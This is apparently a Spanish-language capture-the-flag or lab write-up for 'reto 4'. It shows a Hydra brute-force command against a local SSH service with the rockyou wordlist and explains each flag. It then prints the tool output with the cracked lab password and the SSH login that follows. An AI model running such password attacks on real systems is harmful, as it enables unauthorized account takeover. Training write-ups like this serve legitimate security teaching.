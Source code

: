 # Solucion para el reto 4

## Comando utilizado para la obtencion de la contraseña del usuario admim

```cs
hydra -s 2222 -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -t 8 ssh://127.0.0.1 -v -f
```
![Comando de ataque](image.png)


- Hydra: Llamamos la herramienta de Hydra.
- -s: Definimos el numero de puerto usado para el ejercicio, ejemplo ==2222==.
- -l: Definimos el nombre del usuario para la conexion, ejemplo ==admin==.
- -P: Definimos el diccionario de contraseñas a usar para el ataque, ==/usr/share/wordlists/rockyou.txt==.
- -e nsr: Definimos como entrada la opcion de una contraseña vacia(n), el nombre de usuario como contraseña(s), el nombre de usuario con las letras invertidas( r ).
- -t: Definimos el numero de tareas en paralelo, ejemplo 8.
- ssh: Definimos el protocolo victima, ejemplo SSH.
- IP: Definimos la IP de la victima, ejemplo ==//127.0.0.1==.
- -v: Activamos el modo Verbose, para ver información detallada del ataque.
- -f: Termina el ataque cuando encuentre una contraseña valida.


## Resultado del comando


```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-26 21:04:04
[DATA] max 8 tasks per 1 server, overall 8 tasks, 14344402 login tries (l:1/p:14344402), ~1793051 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://admin@127.0.0.1:2222
[INFO] Successful, password authentication is supported by ssh://127.0.0.1:2222
[STATUS] 88.00 tries/min, 88 tries in 00:01h, 14344314 to do in 2716:44h, 8 active
[STATUS] 82.67 tries/min, 248 tries in 00:03h, 14344154 to do in 2891:58h, 8 active
[2222][ssh] host: 127.0.0.1   login: admin   password: smokey
[STATUS] attack finished for 127.0.0.1 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-26 21:07:50
```
![Contraseña para admin](image-1.png)

## Conexion con el servicio SSH

Probamos la conectividad con las credenciales obtenidas

```cs
ssh admin@127.0.0.1 -p 2222 
```
![Conexion exitosa](image-2.png)



